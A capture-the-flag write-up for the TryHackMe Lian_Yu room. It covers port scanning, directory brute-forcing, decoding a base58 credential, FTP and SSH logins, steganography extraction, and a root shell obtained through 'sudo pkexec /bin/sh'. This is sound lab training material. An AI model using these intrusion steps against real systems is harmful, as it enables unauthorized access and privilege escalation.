



# Lian_Yu — TryHackMe Writeup

**Room:** [Lian_Yu](https://tryhackme.com/room/lianyu)
**Difficulty:** Easy

This is one of the first boot2root rooms I worked through end-to-end. The writeup follows the path I actually took, including the parts where I got stuck. Flags are not included so the room stays solvable for others.

---

## Recon

1. #### Deploy the VM and Start the Enumeration.

Added the IP to `/etc/hosts` as `yu.thm` for convenience, then ran a full nmap scan:

```
nmap -A -p- -T4 -oN lianyu.nmap yu.thm
```

Results:

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.2
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 56:50:bd:11:ef:d4:ac:56:32:c3:ee:73:3e:de:87:f4 (DSA)
|   2048 39:6f:3a:9c:b6:2d:ad:0c:d8:6d:be:77:13:07:25:d6 (RSA)
|   256 a6:69:96:d7:6d:61:27:96:7e:bb:9f:83:60:1b:52:12 (ECDSA)
|_  256 3f:43:76:75:a8:5a:a6:cd:33:b0:66:42:04:91:fe:a0 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          44112/tcp   status
|   100024  1          46607/tcp6  status
|   100024  1          51310/udp6  status
|_  100024  1          56131/udp   status
```
FTP, SSH, and HTTP ports were open. I tried anonymous FTP first, but it was rejected, then moved to the web on port 80.

---

## Web enumeration

2. #### What is the Web Directory you found?


The homepage is a static Arrowverse-themed page. It didn't reveal anything useful, so I moved on to gobuster to look for hidden directories.

```
gobuster dir -u http://yu.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This gave me:
```
/island (Status: 301)
```

This gave me a second-level directory. I repeated the same approach — visited the page in the browser:


I inspected the page source for hidden information and found a value, `vigilante`, which I kept for later.

 

Ran gobuster again, scoped to `/island`, to check for more hidden files or directories:

```
gobuster dir -u http://yu.thm/island -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
That gave me:
```
/**** (Status: 301)
```
— the answer to question 2.

3. #### What is the file name you found?

I then navigated to http://yu.thm/island/**** and inspected the source code:



This hinted that I should search for files with a `.ticket` extension using gobuster:

```
gobuster dir -u http://yu.thm/island/**** -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .ticket
```
This gave me:
```
/*****_*****.ticket (Status: 200)
```

That gave me the path to the ticket file — the answer to this question too.

4. #### What is the FTP Password?

Contents of the file:

````
This is just a token to get into Queen's Gambit(Ship)

RTy8yhBQdscX
````

The file contained an encoded string. It didn't decode as base64, so I pasted it into [CyberChef](https://gchq.github.io/CyberChef/) and used the *Magic* operation, which detected base58. The decoded output gave me a username and password.

> **Note to self:** when base64 fails, try base58 / base32 / base62 before assuming the data is encrypted. CyberChef's Magic mode saves a lot of time here.

---

## FTP foothold

5. #### What is the file name with SSH password?

With the value `vigilante` and the FTP password from the last question, I had credentials to log into FTP:

```
ftp yu.thm
```
```
ftp> ls
-rw-r--r--    1 0        0          511720 June 25 14:26 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 June 25 14:10 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 June 25 14:25 aa.jpg
ftp> cd ..
ftp> ls
drwx------    2 1000     1000         4096 June 25 14:55 slade
drwxr-xr-x    2 1001     1001         4096 June 25 14:10 vigilante
```

Logged in as `vigilante`, the home directory had 3 images worth downloading and checking for hidden data. There was no `user.txt` here, which told me `vigilante` wasn't the final target — so I checked `/home` and found another user on the box: `slade` — the account I'd target next.

```
ftp> mget *
mget Leave_me_alone.png? y
mget Queen's_Gambit.png? y
mget aa.jpg? y
ftp> exit
```

With all three images downloaded, I triaged them for steganography.

`aa.jpg` and `Queen's_Gambit.png` opened fine, but `Leave_me_alone.png` wouldn't open and `binwalk -e` turned up nothing. Next I checked the actual file type with `file`:

```
file Leave_me_alone.png
Leave_me_alone.png: data
```

Still no useful type information, so I went straight to the magic bytes with `xxd`:

```
xxd Leave_me_alone.png | head -1
00000000: 5845 6fae 0a0d 1a0a 0000 000d 4948 4452  XEo.........IHDR
```

`5845 6fae 0a0d 1a0a` isn't a real magic number for any format I recognized, which told me it had been deliberately corrupted rather than encrypted. I compared it against the header of the other PNG I'd downloaded:

```
xxd Queen\'s_Gambit.png | head -1
00000000: 8950 4e47 0d0a 1a0a 0000 000d 4948 4452  .PNG........IHDR
```

`8950 4e47 0d0a 1a0a` is the correct PNG signature, so I patched it into `Leave_me_alone.png` with `hexeditor`.



With the header fixed, the image opened and revealed another password — but no obvious target for it yet. Since `aa.jpg` was the one JPEG and a likely steganography candidate, I tried the password there:

```
steghide extract -sf aa.jpg
Enter passphrase: 
wrote extracted data to "ss.zip".
```

That extracted a zip, which I unzipped:

```
unzip ss.zip
Archive:  ss.zip
  inflating: passwd.txt              
  inflating: *****  
```

The second file held the password for the other user on the box — its filename was also the answer to question 5.

6. #### user.txt

Used that password to SSH in as `slade`:

```
ssh slade@yu.thm
```

```
cat user.txt
******************************
			--Felicity Smoak
```

---

## Privilege escalation

7. #### root.txt

First step for privesc, as always: check what I can run as root.

```
sudo -l
```
```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

`pkexec` is whitelisted, so I checked [GTFOBins](https://gtfobins.github.io/) for the exploitation pattern:

```
sudo pkexec /bin/sh
# whoami
root
# cat root.txt
```

Root flag is in `/root/` — room complete.

---

## What I learned

**Read before brute-forcing.** Two levels of this box were solvable just by reading HTML. Gobuster is a fallback when reading runs out, not the first thing to reach for.

**File ownership tells a story.** The root-owned files in a user's home were obviously placed there. `ls -la` is more informative than I used to think.

**Knowing file signatures pays off.** I now have PNG, JPEG, ZIP, ELF, and PE magic bytes memorized. Spotting a broken header in a hex dump beats running every forensic tool on the file.

**Sudo with one binary isn't automatically safe.** It depends on what that binary can do. `pkexec`, `vim`, `find`, `awk`, `less`, `python`, `tar`, `man` — all of them can spawn a shell if sudo lets you run them. Before whitelisting anything, check GTFOBins first.

---

## MITRE ATT&CK mapping

| Phase | Technique | ID |
|-------|-----------|-----|
| Reconnaissance | Active scanning (nmap) | T1595.001 |
| Reconnaissance | Vulnerability scanning (nmap NSE) | T1595.002 |
| Reconnaissance | Wordlist scanning (gobuster) | T1595.003 |
| Initial Access | Valid accounts (creds from steganography) | T1078 |
| Initial Access | External remote services (SSH) | T1133 |
| Defense Evasion | Steganography | T1027.003 |
| Defense Evasion | Encoded file (base58 on web) | T1027.013 |
| Credential Access | Credentials in files | T1552.001 |
| Privilege Escalation | Abuse of sudo | T1548.003 |
| Privilege Escalation | Exploitation for privesc (pkexec) | T1068 |

---

## Tools used

`nmap`, `gobuster`, `curl`, browser DevTools, CyberChef, `ftp`, `file`, `exiftool`, `binwalk`, `strings`, `xxd`, `dd`, Python, `steghide`, `stegseek`, `ssh`, `sudo -l`, GTFOBins.

---

## References

- [TryHackMe — Lian_Yu](https://tryhackme.com/room/lianyu)
- [GTFOBins — pkexec](https://gtfobins.github.io/gtfobins/pkexec/)
- [PNG specification — file signature](https://www.w3.org/TR/png/#5PNG-file-signature)
- [MITRE ATT&CK Enterprise](https://attack.mitre.org/matrices/enterprise/)
